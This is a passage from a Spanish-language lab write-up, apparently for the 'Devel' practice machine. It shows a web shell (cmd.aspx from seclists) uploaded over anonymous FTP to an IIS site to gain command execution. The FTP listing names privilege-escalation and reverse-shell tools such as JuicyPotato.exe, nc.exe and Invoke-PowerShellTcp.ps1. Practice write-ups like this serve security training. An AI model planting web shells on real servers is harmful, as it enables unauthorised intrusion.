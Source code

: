 Ahora vemos si la Web lo interpreta y de esa manera concluimos que esta sincronizado el ftp con web.

<h3 style="text-align:center" id="explotacion">EXPLOTACIÓN</h3><hr>

![](../assets/images/Devel/weblointerpreta.png)
- Como es un servicio IIS debemos subir un archivo con la extensión .aspx 
- Si buscamos en nuestra máquina archivos con extensión  .aspx nos arroja muchos, en esta casi vamos a usar uno de cmd para que la web nos de un cmd. 

```ruby
❯ locate .aspx | grep cmd
/usr/share/davtest/backdoors/aspx_cmd.aspx
/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx
/usr/share/webshells/aspx/cmdasp.aspx
```

- Vamos a usar el de seclists `/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx` y lo subimos al servidor web por ftp.

```ruby
ftp> put cmd.aspx
local: cmd.aspx remote: cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.00 secs (72.3789 MB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
07-24-23  03:35AM                 1398 aspx_cmd.aspx
07-24-23  08:04AM                18640 CLSID.list
07-25-23  05:20AM                 1442 cmd.aspx
07-24-23  05:30AM                 1581 cmdtest.asp
07-24-23  07:08AM                 1580 GetCLSID.ps1
03-17-17  05:37PM                  689 iisstart.htm
07-24-23  07:33AM                72846 Invoke-ConPtyShell.ps1
07-24-23  07:49AM                 4339 Invoke-PowerShellTcp.ps1
07-24-23  08:09AM               263680 JuicyPotato.exe
07-24-23  04:47PM                 2910 latShell.aspx
07-24-23  03:35AM                59392 nc.exe
07-24-23  08:35AM                 2395 result.log
07-25-23  05:12AM                 2739 reverse-shell.aspx
07-24-23  05:09AM                 2907 rs_aspx.aspx
07-25-23  05:01AM                 2907 shell.aspx
07-25-23  04:47AM                20881 shell.php
07-24-23  04:25AM                38381 tess.asp
07-24-23  04:34AM                38795 test.aspx
07-24-23  04:40AM                38583 test1.aspx
```